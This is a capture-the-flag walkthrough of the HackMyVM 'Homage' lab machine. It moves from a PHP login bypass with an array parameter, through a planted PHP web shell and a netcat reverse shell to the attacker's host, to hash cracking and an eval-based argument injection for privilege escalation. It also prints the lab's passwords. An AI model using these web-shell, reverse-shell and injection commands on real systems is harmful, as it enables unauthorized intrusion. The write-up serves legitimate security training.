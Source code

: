 ```yaml
---
title: "Homage - HackMyVM Walkthrough"
---
```

nmap service scan:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/homage]
└─$ nmap -p- -sV 192.168.56.254 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-09 11:41 EST
--SNIP--
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endhighlight %}

Upon visiting the website we're presented with a login form on the page. 
We'll need to intercept the index.php request with Burp, edit the values and add 
`[]` square braces to the password field. 

Vulnerability details found here: https://www.programmersought.com/article/66221929636/

What the request looks like in BurpSuite after the changes have been made:

{% highlight text %}
POST /secret.php HTTP/1.1
Host: 192.168.56.254
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.56.254
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.56.254/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close


login=admin&password[]=admin
{% endhighlight %}

We then forward the request to the server and get the following response:
{% highlight text %}
Access codes :

l4nr3n:thisVMsuckssomuchL0L



This page is for HMV staff only. Please remember to visit it regularly as access codes are changed weekly.
HMV thanks you for visiting.
{% endhighlight %}

Looks like we've been given an ssh login. 

Logging in via SSH: 
{% highlight terminal %}

┌──(kali㉿kali)-[~/ctf/homage]
└─$ ssh l4nr3n@192.168.56.254                                      
The authenticity of host '192.168.56.254 (192.168.56.254)' can't be established.
ECDSA key fingerprint is SHA256:pXCPsoEbVcXqK7gWXl+W2cTgVEcOotV7cR0FaCTTunI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.254' (ECDSA) to the list of known hosts.
l4nr3n@192.168.56.254's password: 
Linux homage 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Jun  8 12:52:39 2021 from 192.168.0.28
l4nr3n@homage:~$
{% endhighlight %}

### Local Enumeration & Privilege Escalation

Users:
{% highlight text %}
root:x:0:0:root:/root:/bin/bash
softy_hack:x:1001:1001:,,,:/home/softy_hack:/bin/bash
l4nr3n:x:1000:1000:,,,:/home/l4nr3n:/bin/bash
d4t4s3c:x:1002:1002:,,,:/home/d4t4s3c:/bin/bash
sml:x:1003:1003:,,,:/home/sml:/bin/bash
{% endhighlight %}
We've got a few user accounts to look into. 

Checking the contents of `/var/www/html`:
{% highlight text %}
l4nr3n@homage:/var/www/html$ ls -a
.  ..  hmv.jpg  HMV_old_archives  index.php  secret.php
{% endhighlight %}

HMV_old_archives contains an earlier version of the site HMV started with. 
Pretty cool. Most likely a rabbit hole though. 

Kernel version isn't vulnerable to any exploits. 

I uploaded linpeas.sh to do local enumeration and came up with nothing. We dont have 
read permissions in the `var/www/html` directory, but we do have write permissions.
Let's create a command injection php script and get a shell as www-data: 

{% highlight terminal %}
l4nr3n@homage:/var/www/html$ cat command.php 
<?php echo system($_GET['cmd']); ?>
{% endhighlight %}

We then visit the URL and test the script:http://192.168.56.254/command.php?cmd=id
result:uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

Set up a netcat listener on port 6666 on the kali machine:

{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/rooted/shop]
└─$ nc -nlvp 6666                                                                1 ⨯
listening on [any] 6666 ...
{% endhighlight %}

Execute nc -e /bin/bash/ 192.168.56.224 6666 request:
`http://192.168.56.254/command.php?cmd=nc%20-e%20/bin/bash%20192.168.56.224%206666`

After catching the connection I used grep to look for any credentials in the haystack
of html files and found nothing. 
The www-data user can use sudo but only with a password. 

from the secret.php file: MyV3ryGreatP4ssw0rd!!! I tried it with every user and got 
nothing. 

Enumerating the `/var/www/html/HMV_old_archive`: 
{% highlight text %}
176K -rw-r--r-- 1 www-data www-data 176K Jun  4 12:52 183.html
176K -rw-r--r-- 1 www-data www-data 176K Jun  4 12:52 184.html
176K -rw-r--r-- 1 www-data www-data 176K Jun  4 12:59 185.html
{% endhighlight %}

185.html was last edited later than every other file in the directory. Each file in 
the directory contains a hash value in the html, let's throw the one from 185.html 
into crackstation.net. 

Result: `1passwordonly`

This password can be used to log in as softy_hack:
{% highlight terminal %}
l4nr3n@homage:~$ su softy_hack
Password: 
softy_hack@homage:/home/l4nr3n$
{% endhighlight %}

Checking the home directory of softy_hack we find a `.mysql_history` file containing
the following:
{% highlight terminal %}
softy_hack@homage:~$ cat .mysql_history 
show databases;
use hmv_db
show tables;
show fields from hmv_users;
select user_login,user_pass from hmv_users;
{% endhighlight %}
Now we have a database to take a look at.

Logging into mysql server and selecting the database: 
{% highlight terminal %}
softy_hack@homage:~$ mysql -u softy_hack -p1passwordonly -h localhost
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 45
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> 
{% endhighlight %}

After selecting the database and the table, we show the fields of the hmv_user table:
{% highlight terminal %}
MariaDB [hmv_db]> show fields from hmv_users;
+---------------------+---------------------+------+-----+---------------------+----------------+
| Field               | Type                | Null | Key | Default             | Extra          |
+---------------------+---------------------+------+-----+---------------------+----------------+
| ID                  | bigint(20) unsigned | NO   | PRI | NULL                | auto_increment |
| user_login          | varchar(60)         | NO   | MUL |                     |                |
| user_pass           | varchar(255)        | NO   |     |                     |                |
| user_nicename       | varchar(50)         | NO   | MUL |                     |                |
| user_email          | varchar(100)        | NO   | MUL |                     |                |
| user_url            | varchar(100)        | NO   |     |                     |                |
| user_registered     | datetime            | NO   |     | 0000-00-00 00:00:00 |                |
| user_activation_key | varchar(255)        | NO   |     |                     |                |
| user_status         | int(11)             | NO   |     | 0                   |                |
| display_name        | varchar(250)        | NO   |     |                     |                |
+---------------------+---------------------+------+-----+---------------------+----------------+
{% endhighlight %}

Following that we can dump the user and password entries:
{% highlight terminal %}
MariaDB [hmv_db]> select user_login,user_pass from hmv_users;
+------------+------------------------------------+
| user_login | user_pass                          |
+------------+------------------------------------+
| cromiphi   | $P$BqUC2qSvJeqAm74VV8DlZ1igVSXb3Q. |
| d4t4s3c    | $P$BRibz10RghJBstfw7PW7QKxtFRC7d/. |
+------------+------------------------------------+
2 rows in set (0.001 sec)

MariaDB [hmv_db]> 
{% endhighlight %}

I copied the hashes to a local file on my kali machine for cracking with hashcat:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/homage]
└─$ hashcat -O -m 400 -a 0 -o hmv_users.cracked hmv_users.hash /usr/share/wordlists/rockyou.txt
{% endhighlight %}

After letting hashcat run for a while, I checked on the `hmv_users.cracked` file:
{% highlight terminal %}
┌──(kali㉿kali)-[~/ctf/homage]
└─$ cat hmv_users.cracked 
$P$BRibz10RghJBstfw7PW7QKxtFRC7d/.:jaredlee
{% endhighlight %}

This is d4t4s3c's password. let's use it to login as d4t4s3c

Checking sudo command privileges:
{% highlight terminal %}
d4t4s3c@homage:~$ sudo -l
Matching Defaults entries for d4t4s3c on homage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User d4t4s3c may run the following commands on homage:
    (sml : sml) NOPASSWD: /bin/bash /home/sml/clean.sh *
{% endhighlight %}

Running the command: 
{% highlight terminal %}
d4t4s3c@homage:~$ sudo -u sml /bin/bash /home/sml/clean.sh *
listing files in /tmp
find: ‘/tmp/tmux-1000’: Permission denied
find: ‘/tmp/systemd-private-de511f813d404d888aa1c84c7a3f0507-systemd-timesyncd.service-JoBySH’: Permission denied
find: ‘/tmp/systemd-private-de511f813d404d888aa1c84c7a3f0507-apache2.service-49qvdQ’: Permission denied
find: Failed to restore initial working directory: /home/d4t4s3c: Permission denied
{% endhighlight %}

We have read permissions on the clean.sh script to let's take a look at what it does:
{% highlight bash%}
#!/bin/bash

function_prim()
{
    until [ -z "$1" ]
    do
      if [ ${1:0:2} = '--' ]
      then
          tmp=${1:2}
          parameter=${tmp%%=*}
          value=${tmp##*=}
          eval $parameter=$value
      fi
      shift
    done
}

target=/tmp

# Pass all options to getopt_simple().
function_prim $*

# list files to clean
echo "listing files in $target"
find "$target" -mtime 1
{% endhighlight %}

In order to exploit this script we run the following command. 
{% highlight terminal %}
d4t4s3c@homage:~$ sudo -u sml /bin/bash /home/sml/clean.sh '--redteam=foo;/bin/bash'
sml@homage:/home/d4t4s3c$
{% endhighlight %}

in order to get root we need to run a program called execute_me in a malbolge 
interpreter. After running, we get the root password:
`root:cr4zyw0rld123`

Get all the flags, submit for points. Hooray for points. 
